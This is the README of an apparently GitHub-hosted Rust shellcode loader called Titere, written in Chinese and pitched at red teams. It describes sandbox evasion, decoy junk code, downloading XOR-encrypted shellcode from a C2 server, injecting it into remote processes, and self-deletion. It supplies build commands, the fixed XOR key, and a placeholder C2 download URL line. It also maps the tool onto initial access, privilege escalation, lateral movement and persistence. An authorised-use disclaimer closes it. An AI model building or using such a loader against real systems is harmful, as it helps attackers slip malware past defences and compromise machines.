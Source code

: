# Titere - 高级Shellcode加载器

一个集成了多种高级反检测技术的 Rust Shellcode 加载器，专为红队渗透测试设计。

## 🎯 核心功能

### 主程序 (src/main.rs) - Shellcode加载器
- **沙箱对抗**：运行时间检测、用户交互检测、环境特征检测、进程检测
- **行为伪装**：延迟执行、正常文件访问、多态垃圾代码、假解密操作
- **Shellcode加载**：远程下载、XOR解密、进程注入执行
- **自清理**：执行后自删除、痕迹清理

### 加密工具 (encrypt_project/src/main.rs) - Shellcode加密器
- **Shellcode处理**：自动检测.bin文件、XOR加密处理
- **数据混淆**：固定密钥加密、批量文件处理

## 🛠️ 技术架构

### Shellcode加载流程
1. **沙箱检测** - 确保在真实环境中执行
2. **行为伪装** - 混淆真实意图
3. **远程获取Shellcode** - 从C2服务器下载加密数据
4. **XOR解密Shellcode** - 使用固定密钥解密
5. **进程注入执行** - 注入目标进程并执行

### 沙箱检测技术
- 系统运行时间检测
- 用户交互检测
- 环境特征检测
- 沙箱进程检测

### 进程注入技术
- 远程内存分配
- 写入shellcode
- 创建远程线程执行

## 🚀 快速开始

### 环境要求
- Windows 操作系统
- Rust 开发环境

### 编译安装
```bash
# 克隆项目
git clone https://github.com/9Insomnie/TitereV1.0.git
cd Titere

# 编译主程序
cargo build --release

# 编译加密工具
cd encrypt_project
cargo build --release
```

### 使用方法

#### Shellcode加载器
```bash
# 直接运行
cargo run

# 或运行编译后的可执行文件
./target/release/loader.exe
```

#### Shellcode加密器
```bash
cd encrypt_project
cargo run
```

## 🔧 配置说明

### C2服务器配置
修改 `src/main.rs` 中的C2服务器地址：
```rust
let url = "http://your-c2-server.com:port/output.bin";
```

### 加密密钥
默认XOR密钥：`[0x1A, 0x2B, 0x3C, 0x4D, 0x5E, 0x6F, 0x7A, 0x8B]`

## 🎯 红队使用场景

1. **初始访问**：绕过沙箱检测，加载初始shellcode
2. **权限提升**：注入高权限进程，执行提权shellcode
3. **横向移动**：远程代码执行，进程间shellcode传播
4. **持久化**：隐蔽shellcode加载，维持访问

## 📊 技术细节

### 多态代码技术
- 模拟数学计算
- 模拟字符串处理
- 模拟数组操作
- 模拟时间获取

### 自删除技术
- 延迟3秒后删除自身文件
- 使用cmd命令执行删除操作

## ⚠️ 重要声明

**本工具仅用于授权的红队渗透测试。使用者必须获得目标系统的明确授权，并遵守相关法律法规。作者不承担任何因非法使用而产生的法律责任。**

## 📞 联系方式

- GitHub Issues: [@9Insomnie](https://github.com/9Insomnie)
- 个人主页: [9Insomnie](https://github.com/9Insomnie)

---

**⚠️ 再次提醒：请确保在授权环境中使用本工具，遵守相关法律法规。** 
